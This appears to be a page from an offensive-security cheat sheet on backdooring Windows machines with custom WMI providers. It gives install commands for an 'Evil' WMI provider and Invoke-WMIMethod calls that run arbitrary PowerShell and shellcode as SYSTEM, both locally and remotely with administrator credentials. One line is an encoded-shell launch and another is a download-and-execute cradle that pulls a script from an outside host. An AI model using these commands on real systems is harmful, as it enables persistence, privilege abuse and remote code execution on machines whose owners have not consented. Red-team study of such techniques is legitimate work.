 ### Backdoors - Custom WMI Provider

WMI procides ample opportunities to backdoor a machine.

[Win32_LocalAdmins](https://github.com/rzander/LocalAdmins) provider creates a class called Win32_LocalAdmins in the `root\cimv2` namespace which can be used to list all local administrators.

[Evil Network Connection WMI Provider](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider) provides ability to execute Powershell command with SYSTEM privileges. It needs elevated privileges to be installed. Powershell.exe in not used to execute the payload.

```powershell
# Install Provider
cd <downloadpath>\EvilNetConnectionWMIProvider-master\EvilNetConnectionWMIProvider\bin\Debug
.\InstallUtil.exe /i EvilNetConnectionWMIProvider.dll

# Uninstall Provider
cd <downloadpath>\EvilNetConnectionWMIProvider-master\EvilNetConnectionWMIProvider\bin\Debug
Uninstall "InstallUtil.exe /u EvilNetConnectionWMIProvider.dll"

# Query network connections (netstat)
Get-WMIObject Win32_NetConnection | select LocalAddress, LocalPort, RemoteAddress, RemotePort, Protocol, State | ft -AutoSize

# Execute arbitrary Powershell ss SYSTEM
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "whoami", $NULL
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "Get-Process", $NULL
```

Of course, these methods can be invoked from a remote box using `-ComputerName` and `-Credential` parameters, but we still need admin privs on the target box.

```powershell
# Query network connections (netstat)
Get-WMIObject Win32_NetConnection -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" | select LocalAddress, LocalPort, RemoteAddress, RemotePort, Protocol, State | ft -AutoSize

# Execute arbitrary Powershell as SYSTEM 
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "whoami", $NULL -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" 
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "Get-Process", $NULL -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" 
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "powershell -e $EncodedShell", $NULL -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" 

# Execute a Powershell script as SYSTEM 
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.2/script.ps1')", $NULL -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" 
```

[Evil WMI Provider](https://gist.github.com/TheWover/4272ea5829d7f6b22fadaeb8aee3229a) can be used to launch custom shellcode on a target box:

```powershell
Invoke-WmiMethod -Class Win32_Evil -Name ExecShellcode -ArgumentList @(0x90,0x90,0x90), $NULL
Invoke-WmiMethod -Namespace root\cimv2 -Class Win32_Evil -Name ExecShellCalcCode -ArgumentList $null

```